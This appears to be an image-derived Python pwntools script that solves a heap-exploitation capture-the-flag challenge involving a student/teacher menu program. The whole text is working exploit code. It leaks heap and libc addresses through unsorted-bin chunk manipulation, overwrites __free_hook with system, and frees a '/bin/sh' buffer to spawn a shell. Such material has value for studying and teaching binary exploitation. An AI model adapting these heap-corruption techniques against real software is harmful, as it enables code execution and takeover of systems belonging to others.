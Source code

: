 ```python
add_student()  # 2


change_role(1)  # to stu0
pray()  # stu0 pray set
change_role(0)  # to teacher
give_score()  # stu0 score < 0

# Step-2: leak heap addr and let stu0.review chk_size from 0x391 to 0x491
change_role(1)  # to stu0
menu(2)  # stu0 pray set, so return &stu0, add 1 to an address
ru("0x")
stu0base = int("0x" + str(p.recv(12), encoding="utf-8"), 16)
heap_base = stu0base - 0x2a0
sla('add 1 to wherever you want! addr: ', str(heap_base + 0x2e9) + '0')
success("heap_base:" + hex(heap_base) + "stu0base:" + hex(stu0base))

# Step-3: delete stu0, stu0.review(0x490) to unsorted bin, new stu, get chk from unsorted bin
change_role(0)  # to teacher
call_parent(0)  # stu0.review to unsorted bin 0x490 # stu0 to tcache(0x30) stu0.info to tcache(0x30)
add_student()  # new stu2, old stu2 covered by this new stu2
# calloc get unsorted bin first, NOT tcache
# 0x490-0x30-0x20 # now unsorted: 0x440

# Step-4: get 0x390 from unsorted, cover stu1 and stu1.info
# let stu1.pinfo->fake_info, fake_info.p2review->chk in unsorted bin. print stu1.review, leak libc
# now unsorted: 0xb0
write_review(2, 0x388, p64(0xdeadbeef).ljust(0x338, b"\0") +
             flat(0x31, heap_base + 0x6b0, 0, 0, 0, 0, 0x21, 1, heap_base + 0x6d0, 0xa0))
# cover stu1 chksize=0x31, stu1.pinfo=heap_base + 0x6b0 (fake stu1.info construct later)
# fake stu1.info: chksize=0x21, Qnum=1; ptr2review=chk in unsorted bin ; review_size=0xa0

# now stu1.info.preview point to unsorted bin chk(0xb0), now leak libc(stu1.review)
change_role(1)  # to student
change_id(1)  # to stu1
menu(2)  # stu1 pray NOT set, print review only
libc_addr = l64()  # leak libc
libc_base = libc_addr - 0x70 - libc.sym["__malloc_hook"]  # for local/remote libc compatibility
libc.address = libc_base
success("libc_addr:" + hex(libc_addr) + " libc_base:" + hex(libc_base))

# Step-5: cover stu2.review="/bin/sh\0", cover __free_hook to &system, trigger system("/bin/sh\0")
change_role(0)  # to teacher
write_review(2, 0, b"/bin/sh\0" + b"\0" * 0x330 + flat(0x31, heap_base + 0x6b0,
             0, 0, 0, 0, 0x21, 1, libc.sym["__free_hook"], 8))
# stu1.pinfo->fake_stuinfo, fake_stuinfo.p2review->&__free_hook
write_review(1, 0, p64(libc.sym["system"]))  # x/2xg &__free_hook is &system now
# cover free_hook i.e. stu1.info.review to &system
dd()  # DEBUG:
call_parent(2)  # free stu2
# origin: free(&stu2.review)# now: system("/bin/sh\0") # &stu2.review is &"/bin/sh\0" now

p.interactive()

```









